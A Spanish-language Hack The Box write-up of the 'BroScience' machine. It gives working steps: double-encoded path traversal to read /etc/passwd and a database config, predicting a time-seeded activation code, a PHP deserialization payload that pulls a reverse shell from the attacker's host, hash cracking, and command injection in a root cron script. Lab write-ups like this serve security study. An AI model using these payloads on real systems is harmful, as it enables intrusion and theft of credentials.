






# 🏁 BroScience

<figure><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/BroScience">BroScience</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.11.195</td><td></td></tr><tr><td>Sistema simulado: </td><td>Debian</td><td></td></tr><tr><td>Servicio vulnerado: </td><td></td><td></td></tr><tr><td>CVEs:</td><td></td><td></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos el ejercicio lanzando un nmap a la IP de la máquina para comenzar a descubrir los puertos y servicios que hay abiertos.&#x20;

```bash
nmap -sCV 10.10.11.195 -O -p-
```

<figure><figcaption></figcaption></figure>

En este punto vamos a ver el portal web desplegado en el puerto 80 y detectamos que nos redirige automáticamente al 443.

<figure><figcaption></figcaption></figure>

Mediante Wapalizer podremos obtener algo de información sobre la página y su diseño que puede sernos de interés para comenzar.&#x20;

<figure><figcaption></figcaption></figure>

En este punto tenemos que buscar dentro de la web si encontramos algo interesante. En nuestro caso encontramos que el pos0t "Seated Rows" está escrito por el administrador del servicio, el cual al pulsar sobre su perfil nos proporciona cierta información relevante. Además encontramos los usuarios bill, michael, john y dmytro.

<figure><figcaption></figcaption></figure>

Vamos a intentar realizar descubrimiento mediante [FFUF ](https://www.kali.org/tools/ffuf/)para asegurarnos de que no nos hemos dejado ningún directorio interesante por consultar. Os recuerdo que teneís los diccionarios de [SecLists ](https://github.com/danielmiessler/SecLists)que son de gran utilidad para estas situaciones.&#x20;

```bash
ffuf -w /opt/SecLists-master/Discovery/Web-Content/Common-PHP-Filenames.txt -u https://broscience.htb/FUZZ
```

Mediante este fuzzing extraemos varios directorios interesantes con los que podemos trabajar.

<figure><figcaption></figcaption></figure>

Vamos a probar a crear un usuario en `https://broscience.htb/register.php` y activarlo ya que al probar a iniciar sesión no nos deja. &#x20;

<figure><figcaption></figcaption></figure>

Al acceder a activate.php nos dice que es necesario un código de activación, por lo que debemos buscar otra manera.&#x20;

<figure><figcaption></figcaption></figure>

Realizando una enumeración de nuevo localizamos el directorio "includes" el cual vamos a revisar.

<figure><figcaption></figcaption></figure>

Al revisar el fichero img.php nos encontramos con que se busca un parámetro, por lo que vamos a probar con una técnica de [LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion)....

<figure><figcaption></figcaption></figure>

Al probar nos salta un error y una contramedida por lo que tenemos que reevaluar el ataque...&#x20;

<figure><figcaption></figcaption></figure>

Parece que se nos resiste un poco...  En este punto vamos a buscar un payload mediante el cual hacer bypass y acceder. Usaremos los [payloads ](https://github.com/omurugur/Path\_Travelsal\_Payload\_List/blob/master/Payload/Dp.txt)de Omurugur y hacemos fuzzing para descubrir cuales nos permiten acceder. Descubierto el Payload solo debemos comenzar a lanzar peticiones y seguir con el descubrimiento y encontraremos que mediante [doble encoding](https://owasp.org/www-community/Double\_Encoding) conseguimos lanzar peticiones maliciosas.. En nuestro caso usaremos el payload `..%252f..%252f..%252f..%252fetc%252fpasswd` de cara a localizar el contenido de `/etc/passwd .`&#x20;

<figure><figcaption></figcaption></figure>

Dado que tenemos una base de datos de postgresl nos lanzamos a ver que encontramos en ese archivo db\_connect.php&#x20;

```bash
curl https://broscience.htb/includes/img.php?path=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%66%25%36%39%25%36%65%25%36%33%25%36%63%25%37%35%25%36%34%25%36%35%25%37%33%25%32%66%25%36%34%25%36%32%25%35%66%25%36%33%25%36%66%25%36%65%25%36%65%25%36%35%25%36%33%25%37%34%25%32%65%25%37%30%25%36%38%25%37%30 --insecure
```

<figure><figcaption></figcaption></figure>

En este punto analizamos `activate.php` para ver como se actividad el usuario creado en `register.php` mediante burpsuite.&#x20;

<figure><figcaption></figcaption></figure>

Encontrando la función de generación del código de activación de nuestro usuario. Tenemos en este punto que analizar `generate_activation_code` .

```php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

En este punto encontramos que el string que genera el código de activación depende de la hora en PHP, por lo que hacemos una modificación y empezamos. Para ello usaremos `strtotime` y generaremos el código de activación mediante la fecha actual. Utilizamos un generador online de PHP, en mi caso busco rápido por internet y encuentro [w3school](https://www.w3schools.com/php).

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(strtotime("Fri, 07 Apr 2023 08:10:39 GMT"));
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    echo $activation_code;
}
generate_activation_code()
?>
```

<figure><figcaption></figcaption></figure>

En este punto introducimos el código de activación de nuestra cuenta como para activarla, y lo conseguimos !

<figure><figcaption></figcaption></figure>

Hecho esto conseguiremos loguearnos en la web!

<figure><figcaption></figcaption></figure>

### 2. Escalada a usuarios del sistema

En este punto vamos a hacer un doble encode de la petición que queremos mandar para ver includes.php

```
../../../../../var/www/html/includes/utils.php
```

```
%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fvar%252Fwww%252Fhtml%252Fincludes%252Futils%252Ephp
```

En nuetro caso lo hacemos con CyberChef en su formato online e insertamos la petición mediante burpsuite.

<figure><figcaption></figcaption></figure>

Analizamos la parte de la parte de "class Avatar"

```
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```

Lo vamos a modificar para que ejecute una revershell y nos de acceso a la máquina, generando un payload mediante el cual ejecutarlo, el cual nos queda así.

<pre class="language-php"><code class="lang-php"><strong>&#x3C;?php
</strong><strong>class Avatar {
</strong>    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://[IP]:[PORT]/shell.php";
    public $imgPath = "./shell.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
$payload = base64_encode(serialize(new AvatarInterface));
echo $payload
?>
</code></pre>

Al ejecutarlo nos generará una cookie quue usaremos de Payload para ejecutar una shell que desplegaremos en un servidor python.&#x20;

Crearemos un archivo shell.php el cual contendrá una revershell de [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell)

Y levantamos el servidor python... En este punto generamos el Payload anterior.

<figure><figcaption></figcaption></figure>

En este punto ya debemos sustituir la cookie y se ejecutará la shell conectando con nuestro shell.php y en ese momento obtendremos acceso a una shell dentro de la máquina victima.

<figure><figcaption></figcaption></figure>

Con los datos de la DB de PostgreSQL que teniamos localizada podemos acceder y ver su contenido viendo los hash de los usuarios generados.

<figure><figcaption></figcaption></figure>

### 3. Escalada de privilegios

En este punto tenemos que intentar sacar las contraseñas mediante los hash de los diferentes usuarios usando JohnThe Ripper. Extraemos las contraseñas de los usuarios bill, dmytro y michael y nos conectamos mediante ssh con el usuario bill a la máquina.&#x20;

<figure><figcaption></figcaption></figure>

En este punrto ya podremos ver lal flag del usuario y deberemos empezar a trabajar en la escalada al usuario root. Empezamos haciendo un descurimiento dentro de la máquina y encontramos el fichero /opt/renew\_cert.sh en el cual podemos obtener una posible escalada de privilegios.

```bash
!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
    emailAddress=$(openssl x509 -in $1 -noout -email)

    country=${country:4}
    state=$(echo ${state:5} | awk -F, '{print $1}')
    locality=$(echo ${locality:3} | awk -F, '{print $1}')
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;

```

&#x20;Dentro del código podemos ver que sirve para comprobar la caducidad de un certificado SSL e imprimir cierta información. Esto nos permite que al crear un certificado a punto de caducar root genere un nuevo certificado y con ello ver su nombre.&#x20;

```bash
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -days 5 -keyout broscience.key -out broscience.crt    
```

<figure><figcaption></figcaption></figure>

En un minuto comprobaremos los permisos de `/bin/bash` y cuando hayan cambiado ejecutaremos `bash -p` obteniendo acceso como root a la máquina.&#x20;

<figure><figcaption></figcaption></figure>



Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)

